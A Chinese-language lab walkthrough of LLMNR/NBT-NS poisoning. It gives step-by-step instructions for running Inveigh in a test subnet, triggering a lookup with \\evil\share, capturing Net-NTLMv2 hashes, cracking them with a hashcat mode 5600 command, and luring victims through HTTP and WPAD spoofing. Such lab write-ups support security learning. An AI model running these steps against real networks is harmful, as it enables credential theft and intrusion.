





# LLMNR_Poisoning

## 一、原理

### 1.1 Windows 名称解析顺序

当 Windows 尝试解析一个主机名时，按以下顺序查找：

1. 本地 hosts 文件  
2. DNS 服务器  
3. LLMNR (Link-Local Multicast Name Resolution) 
4. NetBIOS Name Service (NBT-NS)                  

### 1.2 漏洞原理

当前三步都无法解析时，Windows 向本地子网**广播**："谁是 `\\evilshare`？"


攻击者需要在**同一子网**运行投毒工具，**比真实主机更快回应**，欺骗目标机发送 **Net-NTLMv2 认证哈希**。获取哈希后可离线破解或中继到其他机器。

### 1.3 攻击条件

|条件|说明|
|---|---|
|攻击机与目标在同一广播域|必须能收到 LLMNR 广播（同子网）|
|LLMNR/NBT-NS 启用|Windows 默认开启|
|有人触发名称解析|访问不存在的共享/URL，或恶意诱导|
|目标防火墙不拦截|入站 LLMNR (UDP 5355) 和 NetBIOS (UDP 137)|

> **关键约束**：LLMNR 是链路层广播，路由器不转发。攻击工具必须在靶场子网内部 运行（或攻击机有网卡直连该子网）。

## 二、靶场部署

### 2.1 确认 LLMNR 已启用（Windows 默认开启）

在SRV2016 上验证：

```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name "EnableMulticast" -ErrorAction SilentlyContinue  
```

返回结果为空或者是值为 1，默认是开启LLMNR。

## 三、漏洞复现 

### 漏洞环境

```
WIN10-PC (192.168.127.100)  -- 运行 Inveigh，负责监听和投毒  
SRV2016 (192.168.127.11)    --- 触发 \\evil\share
```

两台机器都在 NAT 子网 192.168.127.0/24 内，均可以收到LLMNR广播。

### Step 1：部署 Inveigh

在 WIN10-PC 上下载 [Inveigh Releases](https://github.com/Kevin-Robertson/Inveigh/releases)， 选 **nativeaot** 版本。
### Step 2：启动监听

直接运行Inveigh.exe

### Step 3：在 SRV2016 上触发

以域账户登录 SRV2016，文件资源管理器地址栏输入：

```
\\evil\share
```
目的是使用smb协议触发对不存在域名evil查找，从而进行LLMNR广播。

### Step 4：捕获成功输出



默认哈希自动保存到当前目录 `Inveigh-NTLMv2.txt`。

### Step 5：破解哈希

使用hashcat 模式 5600 = Net-NTLMv2  进行爆破哈希
```bash
hashcat -m 5600 Inveigh-NTLMv2.txt /usr/share/wordlists/rockyou.txt --force
```


## 四、常见触发方式

### 方式一：SMB 共享嗅探
最常见的漏洞触发方式，也是在众多靶场中最经常遇到的漏洞触发点。
```
在 SRV2016 或 WIN10-PC 上  
net use \\nonexistent\share  
或文件管理器地址栏输入 
\\fakeshare\share
```

### 方式二：HTTP 认证

在使用Responder/Inveigh 工具监听的同时，默认会自动开启HTTP服务。
Responder/Inveigh 开启 HTTP 服务器后，引诱目标访问：
```
http://<攻击机IP>/anything
```

浏览器弹出 NTLM 认证框 → 自动发送哈希。UNC 路径（`file://192.168.127.x/`）同理。


### 方式三：WPAD 欺骗

Responder/Inveigh 默认开启 WPAD 欺骗。目标浏览器配置"自动检测代理"时 → 自动请求 WPAD → 攻击机回应 → 捕获哈希。

参考文章：
https://cloud.tencent.com/developer/article/1871187


## 工具集合

- [Inveigh GitHub](https://github.com/Kevin-Robertson/Inveigh)
    
- [Responder GitHub](https://github.com/lgandx/Responder) 
    
